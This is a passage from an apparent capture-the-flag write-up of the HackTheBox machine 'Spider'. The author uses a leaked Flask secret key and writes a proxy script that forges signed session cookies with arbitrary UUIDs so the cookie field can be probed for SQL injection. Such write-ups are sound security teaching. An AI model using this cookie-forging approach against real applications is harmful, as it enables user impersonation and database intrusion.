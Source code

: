 This key is what is used to sign the cookie for the application to be whatever user I want.

The challenge is, at this point, I don’t know a username or user UUID to try to impersonate.

### Access Admin Panel

#### Strategy

I tested for SQL injection in the registration and login pages without any success. Now that I can craft a cookie, I’ll think about what could happen with that. When I submit a cookie to the site, it will first validate it was signed with the key, then extract the uuid and use that to get a username from the database, for example to display in the logout button or to check when visiting the admin page. There could be an injection point there if that query was given less protection because only someone with the key could craft that payload.

#### Proxy

To interact with the site, I’ll build a simple Flask server that can proxy requests for me. [This post](https://stackoverflow.com/questions/42283778/generating-signed-session-cookie-value-used-in-flask) shows how to get access to the Flask signing bits. My server will listen for a request, and pull a uuid and a optional URL from the GET parameters, and then craft a request with that UUID in the cookie:

```

#!/usr/bin/env python3

import requests
from flask import Flask, request
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = "Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942"
session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def main():
    uuid = request.args['uuid']
    if 'url' in request.args:
        url = request.args['url']
    else:
        url = 'http://spider.htb'
    cookie_data = {"uuid": uuid, "username": "", "cart_items": []}
    cookie = {"session": session_serializer.dumps(cookie_data)}
    resp = requests.get(url, cookies=cookie)
    return resp.text

app.run()

```

On running it, a Flask server is listening on my box listening on TCP 5000:

```

oxdf@parrot$ python flask_proxy.py 
 * Serving Flask app "flask_proxy" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)

```
